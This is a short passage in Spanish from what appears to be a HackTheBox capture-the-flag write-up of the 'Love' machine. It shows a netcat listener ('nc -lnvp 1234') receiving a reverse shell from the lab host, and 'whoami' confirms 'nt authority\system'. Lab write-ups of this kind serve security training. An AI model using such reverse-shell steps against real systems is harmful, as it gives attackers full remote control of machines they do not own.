 Y lo ejecutamos tras poner el netcat en escucha en el puerto configurado.

```netcat
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.239] 58212
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

![](/assets/images/HTB/Love-HackTheBox/hacker-cat.gif)
